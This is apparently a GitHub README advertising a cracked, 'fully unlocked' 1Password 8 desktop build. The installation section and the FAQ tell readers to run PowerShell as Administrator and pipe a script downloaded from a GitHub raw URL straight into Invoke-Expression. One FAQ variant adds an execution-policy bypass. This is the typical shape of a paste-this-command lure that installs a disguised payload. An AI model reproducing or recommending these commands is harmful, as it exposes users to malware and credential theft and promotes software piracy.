

<div align="center">


<br>


# 1Password 8 Desktop Full Version
**1Password 8 · Vaults · Watchtower**
<br>
**1Password 8 · Vaults · Watchtower**
<br>
Premium · Pro · Full build · Windows



**Fully unlocked 1Password 8 Desktop — AES-256 vaults, Watchtower breach alerts, autofill and travel mode all active.**

</div>

---

> Full desktop version unlocks unlimited vaults, Watchtower and travel mode — manage passwords without 1Password subscription tiers.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- 🔐 **Secure vaults** — AES-256 encryption with local and cloud sync enabled.
- 🔑 **Autofill** — Browser extensions and app integration fully active.
- 👁️ **Watchtower** — Breach alerts and password health monitoring included.
- 👨‍👩‍👧 **Family sharing** — Shared vaults and guest accounts enabled.
- 🔓 **All features** — Travel mode, SSH keys and document storage active.
- 📱 **Cross-device** — Desktop, mobile and browser sync without limits.
- ⚡ **One command** — PowerShell handles download, unpack, and setup.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 4 GB minimum |
| **Disk** | 500 MB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 4 GB minimum, 500 MB free space.
</details>


TAGS
1password-8, password-vault, watchtower-security, autofill-manager, 1password-desktop, secure-notes, family-vault, password-manager, cybersecurity, privacy-tools, identity-protection, data-security, 1password-desktop-pc, system-utility, pc-maintenance
